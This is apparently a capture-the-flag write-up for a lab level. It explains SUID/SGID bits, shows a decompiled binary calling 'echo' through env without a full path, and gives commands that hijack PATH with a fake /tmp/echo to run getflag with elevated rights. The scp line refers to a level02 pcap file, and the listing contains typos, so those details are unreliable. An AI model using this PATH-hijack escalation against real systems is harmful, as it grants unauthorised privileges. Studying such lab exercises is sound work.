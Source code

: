 There is no password for flag03 here. There is an executable file at the root of the repo - "level03".

The permissions on it -rwsr-sr-x indicate that the 's' replaces 'x' in the execute permissions.

The first s is the Set User ID bit (SUID).
The second s is the Set Group ID bit (SGID).
When this bit is set, the programme executes with the permissions of the file owner (flag03) rather than the user who runs it.
When SGID is set, the programme executes with the permissions of the file's group (level03).

We trasfer this file to our computer using the scp or sftp protocol

scp -P 4242 level02@192.168.56.101:/home/user/level02/level02.pcap $HOME/Documents/

Running this file in binary ninja (which disassembles the executable and reveals the file's code) shows the contents of the programme:

```
main:
    gid_t eax = getegid()
    uid_t eax_1 = geteuid()
    setresgid(eax, eax, eax)
    setresuid(eax_1, eax__1, eax_1)
    return system("/usr/bin/env echo Exploit me)
```
getegid() gets the group ID and geteuid() gets the user ID.
setresgid and setresuid set the groupID and userID respectively, ensuring the right user and group are set when running this script.

Which explains why executing it prints Exploit me to the console.

However, since it doesn't use echo with the full path, we can create our own "echo" programme in /tmp, which runs getflag instead.

vim /tmp/echo
	/bin/getflag

chmod +x /tmp/echo
PATH=/tmp:$PATH ./level03

getflag checks whether the user ID and group ID are right, 
which is why it only generates a token when it is executed with the level03 script.
